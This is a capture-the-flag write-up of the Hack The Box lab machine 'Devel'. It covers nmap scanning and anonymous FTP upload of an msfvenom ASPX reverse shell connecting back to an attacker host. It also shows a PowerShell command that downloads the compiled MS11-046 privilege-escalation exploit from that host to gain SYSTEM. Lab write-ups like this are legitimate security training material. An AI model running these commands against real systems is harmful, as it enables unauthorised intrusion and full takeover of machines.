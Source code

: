 # [Devel](https://app.hackthebox.com/machines/devel)

```bash
nmap -p- --min-rate 10000 10.10.10.5 -Pn 
```
![Alt text](img/image.png)

From open ports(21,80), we do greater nmap scan for these.

```bash
nmap -A -sC -sV -p21,80 10.10.10.5 -Pn 
```

I see that it is IIS server which runs via Dotnet language, for this .aspx language is used.

![Alt text](img/image-1.png)


Another thing, I see that I can login to FTP by anonymously (anonymous: empty_password).

![Alt text](img/image-2.png)


I see that FTP's shell is server on http port (80), that's why we can upload malicious **'dr4ks.aspx**' file into FTP.

So, let's create malicious reverse shell via `msfvenom` tool.

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.16.8 LPORT=1337 -o dr4ks.aspx
```

![Alt text](img/image-3.png)

Then, I browse the page which my reverse shell.aspx works.

![Alt text](img/image-4.png)


I got reverse shell.

![Alt text](img/image-5.png)


While I do `systeminfo` command to learn target's infrastructure.

![Alt text](img/image-6.png)


I see that it Microsoft Windows 7 build 7600 system.

Let's search publicly known exploits.

That's CVE-2011-1249 which calls as 'MS11-046'.


Let's download C script.

```bash
searchsploit -m 40564
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

![Alt text](img/image-7.png)


Now, as I have executable, let's try to upload this into target machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080  # create web app to serve files

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.8:8080/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"  #download
```

![Alt text](img/image-8.png)

![Alt text](img/image-9.png)


After execution of this malicious exe, we are **ROOT USER.**

![Alt text](img/image-10.png)


user.txt

![Alt text](img/image-11.png)


root.txt

![Alt text](img/image-12.png)


